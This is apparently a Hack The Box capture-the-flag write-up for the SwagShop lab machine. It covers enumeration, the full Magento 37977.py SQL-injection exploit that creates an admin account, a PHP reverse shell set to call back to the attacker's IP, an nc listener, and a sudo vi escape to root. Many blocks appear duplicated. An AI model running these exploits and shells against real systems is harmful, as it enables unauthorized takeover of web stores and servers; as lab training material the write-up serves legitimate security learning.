

hackthebox SwagShop
Released: May 2019 / Pwned: June 24th 2019 - [+] Solved whilst Active
This machine seemed to slam me in the face at every turn, which didn't do much for my concentration considering this box was supposed to be “very easy". The steps all look so logical when laid out in a write-up but when you're switching between scripts and re-writing bits of what, you think, are all the valid exploits you end up getting pretty lost in it all. Got there in the end though :)
Summary
• Navigate to 80/http• Gobuster both
http://10.10.10.140 and http://10.10.10.140/index.php and find some interesting URLs• Modify exploit
37977.py and get admin credentials• Upload the Filesystem plugin via panel at
/downloader and get reverse shell by modifying install.php at /index.php/admin using Filesystem plugin• Upgrade to an interactive reverse shell using python3
• Run
vi with sudo permissions on a file in /var/www/html/ and escape to a root shell1) Nmap
Initial scan:
nmap -sC -sV -O -oN nmap/initial.txt 10.10.10.140-sC default scripts
-sV service enumeration
-O OS detection
-oN default output
Results:
root@gotham:~/ctf/swagshop# mkdir nmap
root@gotham:~/ctf/swagshop# nmap -sC -sV -O -oN nmap/initial.txt 10.10.10.140
...
Host is up (0.039s latency).
Not shown: 998 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 b6:55:2b:d2:4e:8f:a3:81:72:61:37:9a:12:f6:24:ec (RSA)
| 256 2e:30:00:7a:92:f0:89:30:59:c1:77:56:ad:51:c0:ba (ECDSA)
|_ 256 4c:50:d5:f2:70:c5:fd:c4:b2:f0:bc:42:20:32:64:34 (ED25519)
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Home page
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
...
root@gotham:~/ctf/swagshop# nmap -sC -sV -O -oN nmap/initial.txt 10.10.10.140
...
Host is up (0.039s latency).
Not shown: 998 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 b6:55:2b:d2:4e:8f:a3:81:72:61:37:9a:12:f6:24:ec (RSA)
| 256 2e:30:00:7a:92:f0:89:30:59:c1:77:56:ad:51:c0:ba (ECDSA)
|_ 256 4c:50:d5:f2:70:c5:fd:c4:b2:f0:bc:42:20:32:64:34 (ED25519)
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Home page
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
...
A full port scan didn't reveal anything new.
• 22/ssh - there's a username enumeration exploit for this OpenSSH version but it ends up being no use
• 80/http - this is the only other place to look, so that's where you should head
2) 80/http
http://10.10.10.140There's some swag to buy! And a great big ‘Magento’ logo staring us in the face.
One thing to note about this site is that if you follow any of the links, to ‘5x Hack the Box Sticker’ for example, you'll notice that appended to the end of the IP/hostname is
/index.php
This isn't immediately apparent when you first visit the site as all you'll see in the URL bar is the hostname/IP.
This is something to take note of when running scripts against the target, as
http://10.10.10.140 and http://10.10.10.140/index.php will produce different results.A lesson to learn from this is that you should briefly, before running any scripts, check the site out yourself and watch carefully for anything of note.
2a) gobuster
Running
gobuster against http://10.10.10.140 finds some interesting URLs for us.
root@gotham:~/ctf/swagshop/80http# gobuster -e -u http://10.10.10.140/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -o gb-common.txt
=====================================================
Gobuster v2.0.1 OJ Reeves (@TheColonial)
=====================================================
[+] Mode : dir
[+] Url/Domain : http://10.10.10.140/
[+] Threads : 10
[+] Wordlist : /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Status codes : 200,204,301,302,307,403
[+] Expanded : true
[+] Timeout : 10s
=====================================================
2019/06/21 11:18:53 Starting gobuster
=====================================================
http://10.10.10.140/.hta (Status: 403)
http://10.10.10.140/.htaccess (Status: 403)
http://10.10.10.140/.htpasswd (Status: 403)
http://10.10.10.140/app (Status: 301)
http://10.10.10.140/downloader (Status: 301)
http://10.10.10.140/errors (Status: 301)
http://10.10.10.140/favicon.ico (Status: 200)
http://10.10.10.140/includes (Status: 301)
http://10.10.10.140/index.php (Status: 200)
http://10.10.10.140/js (Status: 301)
http://10.10.10.140/lib (Status: 301)
http://10.10.10.140/media (Status: 301)
http://10.10.10.140/pkginfo (Status: 301)
http://10.10.10.140/server-status (Status: 403)
http://10.10.10.140/shell (Status: 301)
http://10.10.10.140/skin (Status: 301)
http://10.10.10.140/var (Status: 301)
=====================================================
2019/06/21 11:19:19 Finished
=====================================================
=====================================================
Gobuster v2.0.1 OJ Reeves (@TheColonial)
=====================================================
[+] Mode : dir
[+] Url/Domain : http://10.10.10.140/
[+] Threads : 10
[+] Wordlist : /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Status codes : 200,204,301,302,307,403
[+] Expanded : true
[+] Timeout : 10s
=====================================================
2019/06/21 11:18:53 Starting gobuster
=====================================================
http://10.10.10.140/.hta (Status: 403)
http://10.10.10.140/.htaccess (Status: 403)
http://10.10.10.140/.htpasswd (Status: 403)
http://10.10.10.140/app (Status: 301)
http://10.10.10.140/downloader (Status: 301)
http://10.10.10.140/errors (Status: 301)
http://10.10.10.140/favicon.ico (Status: 200)
http://10.10.10.140/includes (Status: 301)
http://10.10.10.140/index.php (Status: 200)
http://10.10.10.140/js (Status: 301)
http://10.10.10.140/lib (Status: 301)
http://10.10.10.140/media (Status: 301)
http://10.10.10.140/pkginfo (Status: 301)
http://10.10.10.140/server-status (Status: 403)
http://10.10.10.140/shell (Status: 301)
http://10.10.10.140/skin (Status: 301)
http://10.10.10.140/var (Status: 301)
=====================================================
2019/06/21 11:19:19 Finished
=====================================================
Key results to note here are:
•
http://10.10.10.140/downloader - location of the Magento Connect Manager login portal•
http://10.10.10.140/app - a directory listing of what looks to be the source code of the entire app◇ in
/app/etc/local.xml - you'll find root credentials for the mysql database, but they're not of any useRunning gobuster against
http://10.10.10.140/index.php also finds some interesting URLs:
root@gotham:~/ctf/swagshop/80http# gobuster -e -u http://10.10.10.140/index.php -w /usr/share/seclists/Discovery/Web-Content/common.txt -o gb-common-index.txt
=====================================================
Gobuster v2.0.1 OJ Reeves (@TheColonial)
=====================================================
[+] Mode : dir
[+] Url/Domain : http://10.10.10.140/index.php/
[+] Threads : 10
[+] Wordlist : /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Status codes : 200,204,301,302,307,403
[+] Expanded : true
[+] Timeout : 10s
=====================================================
2019/06/24 18:29:20 Starting gobuster
=====================================================
http://10.10.10.140/index.php/0 (Status: 200)
http://10.10.10.140/index.php/Home (Status: 200)
http://10.10.10.140/index.php/admin (Status: 200)
http://10.10.10.140/index.php/api (Status: 200)
http://10.10.10.140/index.php/catalog (Status: 302)
http://10.10.10.140/index.php/checkout (Status: 302)
http://10.10.10.140/index.php/cms (Status: 200)
http://10.10.10.140/index.php/contacts (Status: 200)
http://10.10.10.140/index.php/core (Status: 200)
http://10.10.10.140/index.php/enable-cookies (Status: 200)
http://10.10.10.140/index.php/home (Status: 200)
http://10.10.10.140/index.php/install (Status: 302)
http://10.10.10.140/index.php/wishlist (Status: 302)
=====================================================
2019/06/24 18:41:16 Finished
=====================================================
=====================================================
Gobuster v2.0.1 OJ Reeves (@TheColonial)
=====================================================
[+] Mode : dir
[+] Url/Domain : http://10.10.10.140/index.php/
[+] Threads : 10
[+] Wordlist : /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Status codes : 200,204,301,302,307,403
[+] Expanded : true
[+] Timeout : 10s
=====================================================
2019/06/24 18:29:20 Starting gobuster
=====================================================
http://10.10.10.140/index.php/0 (Status: 200)
http://10.10.10.140/index.php/Home (Status: 200)
http://10.10.10.140/index.php/admin (Status: 200)
http://10.10.10.140/index.php/api (Status: 200)
http://10.10.10.140/index.php/catalog (Status: 302)
http://10.10.10.140/index.php/checkout (Status: 302)
http://10.10.10.140/index.php/cms (Status: 200)
http://10.10.10.140/index.php/contacts (Status: 200)
http://10.10.10.140/index.php/core (Status: 200)
http://10.10.10.140/index.php/enable-cookies (Status: 200)
http://10.10.10.140/index.php/home (Status: 200)
http://10.10.10.140/index.php/install (Status: 302)
http://10.10.10.140/index.php/wishlist (Status: 302)
=====================================================
2019/06/24 18:41:16 Finished
=====================================================
The useful result is -
http://10.10.10.140/index.php/admin - which is the location of the Magento Admin Panel.2b) searchsploit Magento
Magento is an online shop written in PHP. And there are exploits for it.
root@gotham:~/ctf/swagshop/80http# searchsploit magento
-----------------------------------------------------------------------------------------------------------------
Exploit Title | Path
| (/usr/share/exploitdb/)
-----------------------------------------------------------------------------------------------------------------
Magento 1.2 - '/app/code/core/Mage/Admin/Model/Session.php?login['Username']' Cross-Site Scripting | exploits/php/webapps/32808.txt
Magento 1.2 - '/app/code/core/Mage/Adminhtml/controllers/IndexController.php?email' Cross-Site Scripting | exploits/php/webapps/32809.txt
Magento 1.2 - 'downloader/index.php' Cross-Site Scripting | exploits/php/webapps/32810.txt
Magento < 2.0.6 - Arbitrary Unserialize / Arbitrary Write File | exploits/php/webapps/39838.php
Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution | exploits/php/webapps/37811.py
Magento Server MAGMI Plugin - Multiple Vulnerabilities | exploits/php/webapps/35996.txt
Magento Server MAGMI Plugin 0.7.17a - Remote File Inclusion | exploits/php/webapps/35052.txt
Magento eCommerce - Local File Disclosure | exploits/php/webapps/19793.txt
Magento eCommerce - Remote Code Execution | exploits/xml/webapps/37977.py
eBay Magento 1.9.2.1 - PHP FPM XML eXternal Entity Injection | exploits/php/webapps/38573.txt
eBay Magento CE 1.9.2.1 - Unrestricted Cron Script (Code Execution / Denial of Service) | exploits/php/webapps/38651.txt
-----------------------------------------------------------------------------------------------------------------
Shellcodes: No Result
-----------------------------------------------------------------------------------------------------------------
Exploit Title | Path
| (/usr/share/exploitdb/)
-----------------------------------------------------------------------------------------------------------------
Magento 1.2 - '/app/code/core/Mage/Admin/Model/Session.php?login['Username']' Cross-Site Scripting | exploits/php/webapps/32808.txt
Magento 1.2 - '/app/code/core/Mage/Adminhtml/controllers/IndexController.php?email' Cross-Site Scripting | exploits/php/webapps/32809.txt
Magento 1.2 - 'downloader/index.php' Cross-Site Scripting | exploits/php/webapps/32810.txt
Magento < 2.0.6 - Arbitrary Unserialize / Arbitrary Write File | exploits/php/webapps/39838.php
Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution | exploits/php/webapps/37811.py
Magento Server MAGMI Plugin - Multiple Vulnerabilities | exploits/php/webapps/35996.txt
Magento Server MAGMI Plugin 0.7.17a - Remote File Inclusion | exploits/php/webapps/35052.txt
Magento eCommerce - Local File Disclosure | exploits/php/webapps/19793.txt
Magento eCommerce - Remote Code Execution | exploits/xml/webapps/37977.py
eBay Magento 1.9.2.1 - PHP FPM XML eXternal Entity Injection | exploits/php/webapps/38573.txt
eBay Magento CE 1.9.2.1 - Unrestricted Cron Script (Code Execution / Denial of Service) | exploits/php/webapps/38651.txt
-----------------------------------------------------------------------------------------------------------------
Shellcodes: No Result
These exploits fooled me originally because at first glance they don't appear suitable.
That's not true. We can use
37977.py to get login credentials for the admin panels.2c) 37977.py
This is the exploit we need - https://www.exploit-db.com/exploits/37977
Whilst the title of this script does say ‘Remote Code Execution’, if you read the contents of the script you'll learn that what it actually does is create an admin user with the credentials
forme / forme (via remote code execution).Parts of the script need editing.
You'll see from this line:
target_url = target + "/admin/Cms_Wysiwyg/directive/index/"
that the exploit is targeting
/admin/Cms_Wysiwyg/directive/index/We know from our gobuster scan earlier that the
/admin directory is located http://10.10.10.140/index.phpSo this line:
target = "http://target.com/"
Needs to be modified to this:
target = "http://10.10.10.140/index.php"
You'll also need to comment out or delete the exploit info at the top and bottom of the script.
My whole exploit looked like this:
'''
////////////////////////
/// Overview:
////////////////////////
Magento shoplift bug originally discovered by CheckPoint team (http://blog.checkpoint.com/2015/04/20/analyzing-magento-vulnerability/)
This python script developed by joren but it was having some bug because of which it was not working properly.
If magento version is vulnerable, this script will create admin account with username forme and password forme
////////////////
/// POC ////
///////////////
Exploit script starts here
///////////////////
'''
#Thanks to
# Zero cool, code breaker ICA, Team indishell, my father , rr mam, jagriti and DON
import requests
import base64
import sys
target = "http://10.10.10.140/index.php"
if not target.startswith("http"):
target = "http://" + target
if target.endswith("/"):
target = target[:-1]
target_url = target + "/admin/Cms_Wysiwyg/directive/index/"
q="""
SET @SALT = 'rp';
SET @PASS = CONCAT(MD5(CONCAT( @SALT , '{password}') ), CONCAT(':', @SALT ));
SELECT @EXTRA := MAX(extra) FROM admin_user WHERE extra IS NOT NULL;
INSERT INTO `admin_user` (`firstname`, `lastname`,`email`,`username`,`password`,`created`,`lognum`,`reload_acl_flag`,`is_active`,`extra`,`rp_token`,`rp_token_created_at`) VALUES ('Firstname','Lastname','email@example.com','{username}',@PASS,NOW(),0,0,1,@EXTRA,NULL, NOW());
INSERT INTO `admin_role` (parent_id,tree_level,sort_order,role_type,user_id,role_name) VALUES (1,2,0,'U',(SELECT user_id FROM admin_user WHERE username = '{username}'),'Firstname');
"""
query = q.replace("\n", "").format(username="forme", password="forme")
pfilter = "popularity[from]=0&popularity[to]=3&popularity[field_expr]=0);{0}".format(query)
# e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ decoded is{{block type=Adminhtml/report_search_grid output=getCsvFile}}
r = requests.post(target_url,
data={"___directive": "e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ",
"filter": base64.b64encode(pfilter),
"forwarded": 1})
if r.ok:
print "WORKED"
print "Check {0}/admin with creds forme:forme".format(target)
else:
print "DID NOT WORK"
////////////////////////
/// Overview:
////////////////////////
Magento shoplift bug originally discovered by CheckPoint team (http://blog.checkpoint.com/2015/04/20/analyzing-magento-vulnerability/)
This python script developed by joren but it was having some bug because of which it was not working properly.
If magento version is vulnerable, this script will create admin account with username forme and password forme
////////////////
/// POC ////
///////////////
Exploit script starts here
///////////////////
'''
#Thanks to
# Zero cool, code breaker ICA, Team indishell, my father , rr mam, jagriti and DON
import requests
import base64
import sys
target = "http://10.10.10.140/index.php"
if not target.startswith("http"):
target = "http://" + target
if target.endswith("/"):
target = target[:-1]
target_url = target + "/admin/Cms_Wysiwyg/directive/index/"
q="""
SET @SALT = 'rp';
SET @PASS = CONCAT(MD5(CONCAT( @SALT , '{password}') ), CONCAT(':', @SALT ));
SELECT @EXTRA := MAX(extra) FROM admin_user WHERE extra IS NOT NULL;
INSERT INTO `admin_user` (`firstname`, `lastname`,`email`,`username`,`password`,`created`,`lognum`,`reload_acl_flag`,`is_active`,`extra`,`rp_token`,`rp_token_created_at`) VALUES ('Firstname','Lastname','email@example.com','{username}',@PASS,NOW(),0,0,1,@EXTRA,NULL, NOW());
INSERT INTO `admin_role` (parent_id,tree_level,sort_order,role_type,user_id,role_name) VALUES (1,2,0,'U',(SELECT user_id FROM admin_user WHERE username = '{username}'),'Firstname');
"""
query = q.replace("\n", "").format(username="forme", password="forme")
pfilter = "popularity[from]=0&popularity[to]=3&popularity[field_expr]=0);{0}".format(query)
# e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ decoded is{{block type=Adminhtml/report_search_grid output=getCsvFile}}
r = requests.post(target_url,
data={"___directive": "e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ",
"filter": base64.b64encode(pfilter),
"forwarded": 1})
if r.ok:
print "WORKED"
print "Check {0}/admin with creds forme:forme".format(target)
else:
print "DID NOT WORK"
Run it and you should be informed that it WORKED.
root@gotham:~/ctf/swagshop/80http/exploits# python 37977.py
WORKED
Check http://10.10.10.140/index.php/admin with creds forme:forme
WORKED
Check http://10.10.10.140/index.php/admin with creds forme:forme
Go check that it really has worked by logging in at
http://10.10.10.140/index.php/adminusername:
formepassword:
formeNice :)
3) Gaining access
First prep the php shell you're going to use. I'm using pentestmonkey's php-reverse-shell.
Edit the IP to that of your attacking machine and set the port to whatever you'll be listening on.
root@gotham:~/ctf/swagshop/80http/exploits# nano php-reverse-shell.php
...
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.11'; // CHANGE THIS
$port = 9001; // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
...
...
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.11'; // CHANGE THIS
$port = 9001; // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
...
3a) Upload Plugin and Modify .php file
To get a shell via the Magento Admin Panel we need to modify a
.php file.In order to modify a
.php file we need the Filesystem plugin, which currently isn't installed.
Upload Filesystem plugin
1) Go to Magento Connect Manager -
http://10.10.10.140/downloader - and log in using the forme / forme credentials2) Upload the filesystem plugin - https://pluginarchive.com/magento/magpleasure_filesystem
Modify.php file
3) Go to the Magento Admin Panel -
http://10.10.10.140/index.php/admin4) The Filesystem plugin should now be there.
Navigate to System tab > Filesystem > IDE
5) Pick a
.php file to edit and copy/paste in your reverse shell, replacing the code that's already there.Make sure the file is publicly accessible (don't use index.php and ruin the box for others).
I chose
/install.php6) Start a listener on your attacking machine
root@gotham:~/ctf/swagshop/80http/exploits# nc -lvnp 9001
listening on [any] 9001 ...
listening on [any] 9001 ...
7) And access the .php file you edited on the website to trigger your reverse shell.
In my case, I visited -
http://10.10.10.140/install.phpYou should receive a shell on your listener!
...
listening on [any] 9001 ...
connect to [10.10.14.11] from (UNKNOWN) [10.10.10.140] 57900
Linux swagshop 4.4.0-146-generic #172-Ubuntu SMP Wed Apr 3 09:00:08 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
14:10:23 up 5:58, 0 users, load average: 0.00, 0.00, 0.45
USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$
listening on [any] 9001 ...
connect to [10.10.14.11] from (UNKNOWN) [10.10.10.140] 57900
Linux swagshop 4.4.0-146-generic #172-Ubuntu SMP Wed Apr 3 09:00:08 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
14:10:23 up 5:58, 0 users, load average: 0.00, 0.00, 0.45
USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$
Go grab the user flag :)
$ ls /home
haris
$ cd /home/haris
$ ls
user.txt
$ cat user.txt
a448...
haris
$ cd /home/haris
$ ls
user.txt
$ cat user.txt
a448...
In my research of Magento I found (I think) multiple different ways to get shells via the admin panel. This is just the method that I used.
4) Priv-Esc
4a) Upgrade to interactive tty
Upgrade your shell to an interactive tty. You'll need it.
Spawn an interactive bash shell using python.
$ python -c 'import pty; pty.spawn("/bin/bash")'
/bin/sh: 14: python: not found
$ which python
$
/bin/sh: 14: python: not found
$ which python
$
Didn't work :/
Python 2 isn't available on the system, but Python 3 is.
Spawn an interactive shell using python3 instead.
$ which python3
/usr/bin/python3
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@swagshop:/$
/usr/bin/python3
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@swagshop:/$
4b) /etc/sudoers
Have a read of /etc/sudoers and check which users might have sudo permissions.
www-data@swagshop:/$ cat /etc/sudoers
#
# This file MUST be edited with the 'visudo' command as root.
...
www-data ALL=NOPASSWD:/usr/bin/vi /var/www/html/*
#
# This file MUST be edited with the 'visudo' command as root.
...
www-data ALL=NOPASSWD:/usr/bin/vi /var/www/html/*
It appears that
www-data has the permissions to run vi using sudo.•
sudo stands for 'superuser do' and is a command-line function that lets you run files/commands with superuser permissions i.e. root permissions•
vi is an old school text editorThis ability is of use to us because whilst in Vi we can escape to a shell.
If Vi is running as root, we'll escape into a root shell.
This line in
/etc/sudoers:www-data ALL=NOPASSWD:/usr/bin/vi /var/www/html/*means:
www-data can run the
vi binary with sudo permissions from ALL terminals without providing a password as long as they're editing any file within /var/www/html/<file>As a result, if we run
vi using sudo and open any file in /var/www/html/<file> we'll have a Vi session running as root and have the opportunity to escape to a root shell. I chose to edit /var/www/html/cron.sh (no particular reason).
www-data@swagshop:/$ ls -l /var/www/html/
ls -l /var/www/html/
total 700
-rw-r--r-- 1 www-data www-data 10679 May 7 2014 LICENSE.html
-rw-r--r-- 1 www-data www-data 10410 May 7 2014 LICENSE.txt
-rw-r--r-- 1 www-data www-data 10421 May 7 2014 LICENSE_AFL.txt
-rw-r--r-- 1 www-data www-data 585086 May 7 2014 RELEASE_NOTES.txt
-rw-r--r-- 1 www-data www-data 2834 May 7 2014 api.php
drwxr-xr-x 6 www-data www-data 4096 May 7 2014 app
-rw-r--r-- 1 www-data www-data 2831 May 7 2014 cron.php
-rw-r--r-- 1 www-data www-data 717 May 7 2014 cron.sh
...
www-data@swagshop:/$ sudo /usr/bin/vi /var/www/html/cron.sh
ls -l /var/www/html/
total 700
-rw-r--r-- 1 www-data www-data 10679 May 7 2014 LICENSE.html
-rw-r--r-- 1 www-data www-data 10410 May 7 2014 LICENSE.txt
-rw-r--r-- 1 www-data www-data 10421 May 7 2014 LICENSE_AFL.txt
-rw-r--r-- 1 www-data www-data 585086 May 7 2014 RELEASE_NOTES.txt
-rw-r--r-- 1 www-data www-data 2834 May 7 2014 api.php
drwxr-xr-x 6 www-data www-data 4096 May 7 2014 app
-rw-r--r-- 1 www-data www-data 2831 May 7 2014 cron.php
-rw-r--r-- 1 www-data www-data 717 May 7 2014 cron.sh
...
www-data@swagshop:/$ sudo /usr/bin/vi /var/www/html/cron.sh
A Vi session will start:
#!/bin/sh
# location of the php binary
if [ ! "$1" = "" ] ; then
CRONSCRIPT=$1
else
CRONSCRIPT=cron.php
fi
MODE=""
if [ ! "$2" = "" ] ; then
MODE=" $2"
fi
PHP_BIN=`which php`
# absolute path to magento installation
INSTALLDIR=`echo $0 | sed 's/cron\.sh//g'`
# prepend the intallation path if not given an absolute path
if [ "$INSTALLDIR" != "" -a "`expr index $CRONSCRIPT /`" != "1" ];then
if ! ps auxwww | grep "$INSTALLDIR$CRONSCRIPT$MODE" | grep -v grep 1>/dev/nu
ll 2>/dev/null ; then
$PHP_BIN $INSTALLDIR$CRONSCRIPT$MODE &
1,1 Top
# location of the php binary
if [ ! "$1" = "" ] ; then
CRONSCRIPT=$1
else
CRONSCRIPT=cron.php
fi
MODE=""
if [ ! "$2" = "" ] ; then
MODE=" $2"
fi
PHP_BIN=`which php`
# absolute path to magento installation
INSTALLDIR=`echo $0 | sed 's/cron\.sh//g'`
# prepend the intallation path if not given an absolute path
if [ "$INSTALLDIR" != "" -a "`expr index $CRONSCRIPT /`" != "1" ];then
if ! ps auxwww | grep "$INSTALLDIR$CRONSCRIPT$MODE" | grep -v grep 1>/dev/nu
ll 2>/dev/null ; then
$PHP_BIN $INSTALLDIR$CRONSCRIPT$MODE &
1,1 Top
To escape to a shell, just type -
:shellSince our initial reverse shell is php, the Vi window will be a little messed up. When I typed
:shell it printed over the top of the text that was already there. That doesn't matter, it's just the shell window being funny.Press enter to run it.
You should be in a root shell!
Read the flag and you'll be presented with the opportunity to grab some swag :)
For other shell-escape techniques using Vi you can have a look here - https://gtfobins.github.io/gtfobins/vi/
root@swagshop:/# id
uid=0(root) gid=0(root) groups=0(root)
root@swagshop:/# cd ~
root@swagshop:~# cat root.txt
c2b08...
___ ___
/| |/|\| |\
/_| ´ |.` |_\ We are open! (Almost)
| |. |
| |. | Join the beta HTB Swag Store!
|___|.__| https://hackthebox.store/password
PS: Use root flag as password!
uid=0(root) gid=0(root) groups=0(root)
root@swagshop:/# cd ~
root@swagshop:~# cat root.txt
c2b08...
___ ___
/| |/|\| |\
/_| ´ |.` |_\ We are open! (Almost)
| |. |
| |. | Join the beta HTB Swag Store!
|___|.__| https://hackthebox.store/password
PS: Use root flag as password!